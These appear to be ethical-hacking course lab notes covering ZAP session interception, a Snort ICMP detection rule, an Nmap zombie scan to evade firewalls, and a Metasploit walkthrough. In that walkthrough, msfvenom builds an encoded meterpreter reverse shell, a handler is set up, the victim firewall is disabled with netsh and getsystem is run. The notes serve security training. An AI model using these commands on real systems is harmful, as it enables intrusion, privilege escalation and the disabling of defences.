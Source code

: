 # 10 - Session Hijacking

## Module 10 - Session Hijacking

<details>

<summary>EMPTY</summary>



</details>



### OWASP Zed Attack Proxy (ZAP)

* First set Victim’s Proxy settings to attacker’s IP and port 8080.
* Open ZAP and enable Break Point and click green + to view break points
* Go to settings -> local Proxies -> Change IP from localhost to network IP (in this case 10.10.10.16).
* Browse from victim and view the request and responses on the attacker machine.

{% embed url="https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/~/changes/38/practical-ethical-hacker-notes/zap" %}
ZAP
{% endembed %}

## Evading IDS Firewalls and Honeypots

### Snort - Intrusion Detection

#### ICMP Detection Rule

* Open C:\Snort\rules\icmp-info.rules.
* Type alert icmp $EXTERNAL\_NET any -> $HOME\_NET 10.10.10.12 (msg:"ICMP-INFO PING"; icode:0; itype:8; reference:arachnids,135; reference:cve,1999-0265; classtype:bad-unknown; sid:472; rev:7;) in Line 21.
* Save the file.

#### Start Snort in IDS mode

* Open cmd in C:Snort and Type snort -iX -A console -c C:\Snort\etc\snort.conf -l C:\Snort\log -K ascii | here X=1 , l is small L

#### Detection

Ping the snort machine and rules will be displayed in cmd

{% embed url="https://www.snort.org/" %}

### Nmap Evasion Techniques – Firewall Rule Bypass

* Enable victim firewall. Create inbound rule and block connection from attacker IP.
* Run different scans from attacker machine. Use Zombie scan to bypass firewall rule. `nmap -sI <Zombie IP><Target IP>`

### Metasploit – Firewall Bypass

#### Payload Setup&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe #-e encoder, -b list of bad characters to avoid

mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and folders inside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move to exploit
service apache2 start
```

#### Listener Setup

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
#Start listener
exploit -j -z #exploit -j -z exploit tells Metasploit to start the exploit.
#The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.
```

#### Execute Exploit

```bash
#Open http://10.10.10.11/share on victim machine. Download Payload and run.
sessions -i #to view sessions
sessions -i 1 #to interact with the session created
execute -f cmd.exe -c -H #creates a channel to execute the victim command shell
shell #opens an interactive shell (cmd)
netsh firewall show opmode #to shown firewall stats
netsh advfirewall set allprofiles state off #to turn off firewall
getsystem
Type ps #show active processes
```
